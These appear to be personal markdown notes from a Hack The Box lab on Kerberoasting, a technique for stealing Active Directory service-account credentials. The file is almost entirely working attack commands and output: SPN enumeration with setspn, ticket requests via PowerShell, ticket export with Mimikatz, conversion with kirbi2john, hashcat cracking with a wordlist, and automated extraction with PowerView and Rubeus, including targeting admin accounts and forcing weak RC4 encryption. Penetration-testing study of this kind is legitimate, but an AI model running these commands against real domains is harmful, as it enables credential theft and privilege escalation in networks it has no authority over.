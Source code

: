 # Kerberoasting - Semi Manual method
## Enumerating SPNs with setspn.exe

```cmd-session
C:\htb> setspn.exe -Q */*
```
## Targeting a Single User

```Powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
## Retrieving All Tickets Using setspn.exe

```Powershell
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
## Extracting Tickets from Memory with Mimikatz

```mimikatz 
base64 /out:true
kerberos::list /export  
```

```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
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
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```
## Preparing the Base64 Blob for Cracking

```bash
Yashfren@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```
## Placing the Output into a File as .kirbi

```bash
Yashfren@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```
## Extracting the Kerberos Ticket using kirbi2john.py

```bash
Yashfren@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```
## Modifiying crack_file for Hashcat

```bash
Yashfren@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
## Viewing the Prepared Hash

```bash
Yashfren@htb[/htb]$ cat sqldev_tgs_hashcat 
$krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c91b47c534bc258d5c97acf433841b2ef2478b425865dc75c39b1dce7f50dedcc29fc8a97aef8d51a22c5720ee614fcb646e28d854bcdc2c8b362bbfaf62dcd9933c55efeba9d77e4....
```
## Cracking the Hash with Hashcat

```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```
# Automated / Tool Based Route
## Using PowerView to Extract TGS Tickets

```Powershell
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
## Using PowerView to Target a Specific User

```Powershell
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format 
Hashcat
```
## Exporting All Tickets to a CSV File

```Powershell
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
## Viewing the Contents of the .CSV File

```Powershell
PS C:\htb> cat .\ilfreight_tgs.csv
```
## Using Rubeus

```Powershell
PS C:\htb> .\Rubeus.exe
```
## Using the /stats Flag

```Powershell
PS C:\htb> .\Rubeus.exe kerberoast /stats
```
#### Using the /nowrap Flag

```Powershell
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
#### Rubeus kerberos SPN

```Powershell
.\Rubeus.exe kerberoast /spn:"MSSQLSvc/SQL01.inlanefreight.local:1433" /format:hashcat
```
###### Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat. Per the documentation, the ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function"; therefore, we won't have to worry about trimming white space or newlines before cracking with Hashcat.
###### /tgtdeleg We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. 
# hashcat codes 
## `$23$` - `13100`
## `$18$` - `19700`
# REMOVE WHITE SPACES

```bash
tr -d '[:space:]' < svc_sql_krb > svc_sql_krb_cleaned
```